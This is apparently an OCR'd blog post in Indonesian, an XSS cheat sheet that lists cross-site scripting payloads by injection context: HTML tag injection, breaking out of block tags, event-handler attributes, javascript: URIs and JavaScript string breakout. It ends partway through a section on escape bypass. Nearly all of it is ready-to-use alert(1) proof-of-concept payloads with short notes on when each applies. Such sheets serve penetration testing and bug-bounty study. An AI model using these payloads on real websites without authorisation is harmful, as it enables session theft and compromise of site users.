 ```yaml
---
layout: post
title: xss cheat sheet
---
```

\# xss-cheat-sheet

\# Basics Xss

> HTML Context - Simple Tag Injection

Gunakan saat input masuk ke dalam nilai atribut dari tag HTML atau tag luar kecuali

yang dijelaskan dalam kasus berikutnya. Tambahkan "->" ke payload jika input masuk dalam komentar HTML.

    <svg onload=alert(1)>
    
    "><svg onload=alert(1)>

> HTML Context - In Block Tag Injection

Gunakan saat input masuk ke dalam atau di antara pembukaan / penutupan tag dalam tanda kurung berikut:

    (<title><style><script><textarea><noscript><pre><xmp>dan<iframe>)(</tag> adalah demikian).
    
    ==========================================================================================
    
    </tag><svg onload=alert(1)>
    
    "></tag><svg onload=alert(1)>

> HTML Context - Inline Injection

Gunakan saat input masuk ke dalam nilai atribut dari tag HTML tetapi tag itu tidak bisa

diakhiri dengan lebih dari tanda (>).

    "onmouseover=alert(1) //
    
    "autofocus onfocus=alert(1) //

> HTML Context - Source Injection

Gunakan ketika input mendarat sebagai nilai dari atribut tag HTML berikut: href, src, data atau

aksi (juga formulasi). Atribut Src dalam tag skrip dapat berupa URL atau "data:, alert (1)".

    javascript:alert(1)

> Javascript Context - Code Injection

Gunakan ketika input mendarat di blok skrip, di dalam nilai string yang dibatasi.

    '-alert(1)-'
    
    '-alert(1)//

> Javascript Context - Code Injection with Escape Bypass

Gunakan ketika input mendarat di blok skrip, di dalam string yang dibatasi nilai tetapi tanda kutip
